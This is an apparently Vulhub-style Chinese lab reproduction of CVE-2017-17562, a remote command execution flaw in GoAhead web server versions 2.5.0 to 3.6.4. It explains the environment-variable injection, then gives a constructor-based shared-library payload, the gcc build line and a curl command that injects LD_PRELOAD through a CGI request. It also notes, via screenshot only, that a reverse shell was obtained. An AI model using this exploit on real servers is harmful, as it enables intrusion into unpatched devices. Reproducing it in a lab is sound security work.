 （CVE-2017-17562）GoAhead 远程命令执行漏洞
==========================================

一、漏洞简介
------------

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST
Body中，发送给`http://www.0-sec.org/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

二、漏洞影响
------------

GoAhead 3.6.5之前的版本（2.5.0 -- 3.6.4）

三、复现过程
------------

启动漏洞环境：

    docker-compose up -d

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

### 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux
PC编译即可。动态链接库源码：

    #include <unistd.h>

    static void before_main(void) __attribute__((constructor));

    static void before_main(void)
    {
        write(1, "Hello: World!\n", 14);
    }

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

    gcc -shared -fPIC ./payload.c -o payload.so

将payload.so作为post body发送：

    curl -X POST --data-binary @payload.so "http://www.0-sec.org:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 

可见，`Hello: world!`已被成功输出，说明我们的动态链接库中的代码已被执行：![1.png](resource/(CVE-2017-17562)GoAhead远程命令执行漏洞/media/rId25.png)编译一个反弹shell的代码，成功反弹shell：![2.png](resource/(CVE-2017-17562)GoAhead远程命令执行漏洞/media/rId26.png)
